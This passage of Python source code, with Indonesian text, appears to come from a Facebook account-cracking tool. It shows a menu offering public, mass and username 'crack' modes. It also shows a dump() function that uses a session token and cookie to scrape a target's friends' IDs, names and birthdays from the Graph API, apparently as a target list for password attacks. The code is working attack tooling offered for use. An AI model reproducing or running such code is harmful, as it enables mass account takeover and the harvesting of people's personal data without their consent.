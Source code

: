 {P2}[{color_text}01{P2}] Crack Publik   {P2}[{H2}ON{P2}]
[{color_text}02{P2}] Crack Massal  {P2} [{H2}ON{P2}]
[{color_text}03{P2}] Crack Username {P2}[{H2}ON{P2}]
[{color_text}04{P2}] Check Ressult  {P2}[{H2}ON{P2}]
[{color_text}05{P2}] Exit Program   {P2}[{H2}ON{P2}]""",width=30,style=f"{color_panel}"))
	__Sllowly_ID_ = input(f'{P}[{H}?{P}] Input : {H}')
	if __Sllowly_ID_ in ['1']:
		idt = input(f'{P}Input ID Target : {H} ')
		dump(idt,"",{"cookie":cok},token)
		setting()
	elif __Sllowly_ID_ in ['2']:
		massal()
	elif __Sllowly_ID_ in ['3']:
		mail2()
	elif __Sllowly_ID_ in ['4']:
		ressult()
	elif __Sllowly_ID_ in ['5']:
		os.system('rm -rf .token.txt')
		os.system('rm -rf .cok.txt')
		print('Sukses Logout+Hapus Kukis ')
		exit()
	else:
		print('Anda Sangat Tolol')
		back()
def error():
	print(f'{k}>> Maaf Fitur Ini Masih Di Perbaiki {x}')
	time.sleep(4)
	back()
#-------- PUBLIK V2 ---------#
def dump(idt,fields,cookie,token):
	try:
		headers = {
			"connection": "keep-alive", 
			"accept": "/", 
			"sec-fetch-dest": "empty", 
			"sec-fetch-mode": "cors",
			"sec-fetch-site": "same-origin", 
			"sec-fetch-user": "?1",
			"sec-ch-ua-mobile": "?1",
			"upgrade-insecure-requests": "1", 
			"user-agent": "Mozilla/5.0 (Linux; Android 11; AC2003) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.104 Mobile Safari/537.36",
			"accept-encoding": "gzip, deflate",
			"accept-language": "id-ID,id;q=0.9"
		}
		if len(id) == 0:
			params = {
				"access_token": token,
				"fields": f"name,friends.fields(id,name,birthday)"
			}
		else:
			params = {
				"access_token": token,
				"fields": f"name,friends.fields(id,name,birthday).after({fields})"
			}
		url = ses.get(f"https://graph.facebook.com/{idt}",params=params,headers=headers,cookies=cookie).json()
		for i in url["friends"]["data"]:
			#print(i["id"]+"|"+i["name"])
			id.append(i["id"]+"|"+i["name"])
			sys.stdout.write(f"\r>> sedang mengumpulkan id, sukses mengumpulkan {H}{len(id)}{P} id....\n"),
			sys.stdout.flush()
		dump(idt,url["friends"]["paging"]["cursors"]["after"],cookie,token)
	except:pass